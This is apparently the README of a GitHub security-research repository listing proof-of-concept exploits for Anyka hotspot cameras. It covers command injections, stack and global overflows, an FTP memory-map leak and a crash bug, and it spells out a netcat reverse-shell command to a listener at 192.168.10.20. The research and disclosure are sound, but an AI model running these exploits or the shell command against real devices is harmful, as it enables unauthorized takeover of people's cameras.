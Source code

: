# Anyka-Camera-Analysis

<p align="center">

  <img src="https://github.com/luke-r-m/Anyka-Camera-Analysis/assets/47477832/eda0d9a9-cd27-41bc-bf77-b49bb1a2867c" width="200">

</p>

This is a repository containing proof-of-concept exploits for getting a remote reverse shell while the Anyka camera is hosting hotspot (cheap Aliexpress camera's mostly). Also contains scripts for interacting with various open ports on the device.

## *daemon*

These exploits/PoCs concern the daemon process running on the camera.

### daemon_6789_cmd_injection.py

This script will exploit a command injection on port 6789 hosted by the daemon process, it will execute the command `nc 192.168.10.20 123 -e ash` to set up a reverse shell for some other device listening on the network with IP 192.168.10.20 listening on port 123.

### daemon_6789_global_overflow.py

This script uses a global overflow in port 6789 handler in daemon and requests to port 8192 to leak a pointer, then exploits a stack overflow to establish a reverse shell for some other device listening on the network with IP 192.168.10.20 listening on port 123.

### daemon_6789_stack_overflow.py

This script uses the exposed FTP server to leak the `/proc/425/maps` file to get libc base address in daemon process then exploits a stack overflow to establish a reverse shell for some other device listening on the network with IP 192.168.10.20 listening on port 123

### daemon_8192_interact.py

This script simply requests to port 8192 to get some information about the camera.

## *anyka_ipc*

These exploits/PoCs concern the *anyka_ipc* process running on the camera, this process links a shared library called *libcloudapi* that exposes port 6000.

### libcloudapi_6000_ap_bind.py

This script can be used to send credentials to the camera, and it will then attempt to bind to the specified AP.

### libcloudapi_6000_ap_log.py

This script returns the length of a log file, note that the desired log directory is not created by default, so it will cause the *anyka_ipc* process to crash.

### libcloudapi_6000_ap_preview.py

This script returns some camera details.

### libcloudapi_6000_ap_update_name_file_cmd_injection.py

This script exploits a command injection in the libcloudapi hosted port 6000 to establish a reverse shell for some other device listening on the network with IP 192.168.10.20 listening on port 123.

### libcloudapi_6000_ap_update_name_file_write.py

This script allows the file with the passed filename to be written onto the device in the `/tmp` directory.
